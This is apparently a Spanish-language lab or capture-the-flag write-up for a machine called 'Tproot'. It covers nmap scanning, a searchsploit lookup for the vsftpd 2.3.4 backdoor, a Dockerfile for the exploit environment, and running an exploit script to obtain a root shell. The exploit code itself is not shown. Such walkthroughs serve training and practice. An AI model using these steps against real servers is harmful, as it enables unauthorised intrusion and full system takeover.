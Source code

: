 # Tproot

## 1. Reconocimiento Inicial de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap -sC -sV --open <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `21/tcp open ftp vsftpd 2.3.4`: El puerto 21 está abierto y ejecuta el servidor FTP vsftpd versión 2.3.4.
*   `80/tcp open http Apache httpd 2.4.58`: El puerto 80 está abierto y ejecuta un servidor web Apache.

### 1.2. Enumeración Web (Sin Resultados)

Al acceder a la página web en el puerto 80, encontramos la página por defecto de Apache, lo que indica que no hay información útil directamente en el sitio web. Intentar `gobuster` para enumerar directorios tampoco arroja resultados, confirmando que el punto de entrada no es la web.

## 2. Explotación del Servicio FTP

La versión `vsftpd 2.3.4` es famosa por tener una puerta trasera (backdoor) que permite la ejecución remota de comandos. Esta vulnerabilidad se introdujo maliciosamente en el código fuente de esta versión específica.

### 2.1. Búsqueda de Exploits con Searchsploit

Utilizamos `searchsploit` para buscar exploits públicos relacionados con `vsftpd 2.3.4`. Esto nos confirma la existencia de exploits para la ejecución de comandos.

```bash
searchsploit vsftpd 2.3.4
```

**Resultados Relevantes:**

*   `vsftpd 2.3.4 - Backdoor Command Execution`
*   `vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)`

Estos resultados indican que podemos obtener una shell remota.

### 2.2. Explotación Manual (Consideraciones)

Aunque existen exploits en Python, a veces pueden surgir problemas de dependencias o entornos (`externally-managed-environment` en `pip`). Para asegurar un entorno controlado y evitar estos problemas, una buena práctica es ejecutar el exploit dentro de un contenedor Docker.

**Pasos para el Entorno Docker (Opcional, para evitar problemas de dependencias):**

1.  **Crear un `Dockerfile`:** Define un entorno con Python, herramientas necesarias y las dependencias específicas del exploit (como `paramiko==2.4.2`).

    ```dockerfile
    # Imagen base con Python 3
    FROM python:3.8-slim

    # Evitamos preguntas interactivas en la instalación de paquetes
    ENV DEBIAN_FRONTEND=noninteractive

    # Actualizamos e instalamos dependencias útiles
    RUN apt-get update && apt-get install -y \
        apt-utils \
        git \
        nano \
        curl \
        wget \
        iputils-ping \
        net-tools \
        inetutils-ping \
        openssh-client \
        procps \
        vim \
        && rm -rf /var/lib/apt/lists/*

    # Creamos carpeta de trabajo
    WORKDIR /exploit

    # Copiamos todos los archivos locales al contenedor
    COPY . /exploit

    # Instalamos versión antigua de Paramiko (necesaria para algunos exploits antiguos)
    RUN pip install paramiko==2.4.2

    # Al arrancar, dejamos un shell interactivo
    ENTRYPOINT ["/bin/bash"]
    ```

2.  **Construir la imagen:** Compila el `Dockerfile` para crear una imagen Docker.

    ```bash
sudo docker build -t miimagen .
    ```

3.  **Ejecutar el contenedor:** Inicia el contenedor, montando un volumen para acceder a wordlists si es necesario.

    ```bash
sudo docker run -it --rm \
  -v /usr/share/wordlists:/wordlists \
  miimagen
    ```

### 2.3. Ejecución del Exploit

Una vez en un entorno adecuado (ya sea local o en el contenedor Docker), instalamos `pwntools` (necesaria para este exploit) y ejecutamos el script.

```bash
pip install pwntools
python3 exploit.py <IP_DEL_OBJETIVO>
```

Este exploit se conecta al servidor FTP, envía un comando específico que activa la puerta trasera y nos proporciona una shell remota con privilegios de `root`.

### 2.4. Verificación de Acceso

Una vez que obtenemos la shell, el comando `whoami` confirmará que hemos iniciado sesión como `root`.

```bash
whoami
# root
```
